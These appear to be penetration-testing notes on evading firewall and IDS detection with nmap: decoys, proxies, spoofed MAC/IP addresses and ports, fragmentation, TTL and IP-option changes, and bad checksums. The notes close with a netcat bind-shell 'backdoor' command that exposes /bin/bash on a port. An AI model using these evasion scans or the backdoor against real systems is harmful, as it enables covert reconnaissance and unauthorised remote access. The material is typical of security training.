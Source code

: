# EVASION VIA CONTROLLING THE SOURCE MAC/IP/PORT

### Tool: nmap

### Nmap can spoof:

### 1) Decoy(s)

### 2) Proxy

### 3) Spoof MAC address

### 4) Spoofed Source IP Address

### 5) Fixed Source port number

## DECOY

### Example:

#### nmap -sS -Pn -D RANDOM,RANDOM,OUR_IP -F TARGET_IP

### TIP: You can explicitly specify the random IPs in your scan

## PROXY

### Example:

#### nmap -sS -Pn --proxies PROXY_URL -F TARGET_IP

### TIP: You can chain proxies using a comma separated list

## SPOOFED MAC ADDRESS

#### nmap option: --spoof-mac MAC_ADDRESS

### MAC Spoofing works only if your system is on the same network segment as the target host

## SPOOFED IP ADDRESS

#### nmap option: -S IP_ADDRESS

### TIP: IP Spoofing can be useful if your system is on the same subnetwork as the target host. Also you can use this technique when you control a system that has a particular IP address

## FIXED SOURCE PORT NUMBER

### Example:

#### nmap -sS -Pn -g 8080 -F TARGET_IP

### TIP: Use port number like 53,80,8080,etc

# EVASION VIA FORCING FRAGMENTATION, MAXIMUM TRANSMISSION UNIT (MTU) AND DATA LENGTH 

## Fragmentation

### Tool: nmap

### Examples:

### -f = 8 bytes

### -ff = 16 bytes

#### nmap -sS -Pn -ff -F TARGET_IP

## Maximum Transmission Unit MTU

#### nmap option: --mtu NUM

### TIP: Number must always be multiple of 8

## Packets with specific length

### nmap option: --data-length VALUE

#### nmap -sS -Pn --data-length NUM -F TARGET_IP

### TIP: Multiple of 8

# EVASION VIA MODIFYING HEADER FIELDS

## Set Time To Live (TTL)

### option: --ttl NUM

#### nmap -sS -Pn --ttl NUM -F TARGET_IP

## Set IP options

### option: --ip-options HEX_STRING

### 1 byte in hex: \xHH

### Other options:

### 1) R = to record route

### 2) T = to record timestamp

### 3) U = record route and record timestamp

### 4) L = Loose routing (Source)

### 5) S = Strict routing (Source)

## Wrong checksum

### option: --badsum

#### nmap -sS -Pn --badsum -F TARGET_IP

# EVASION USING NON-STANDARD PORTS

### Backdoor example: nc -lvnp PORT -e /bin/bash

### TIP: run as root to use ports below 1024 with netcat
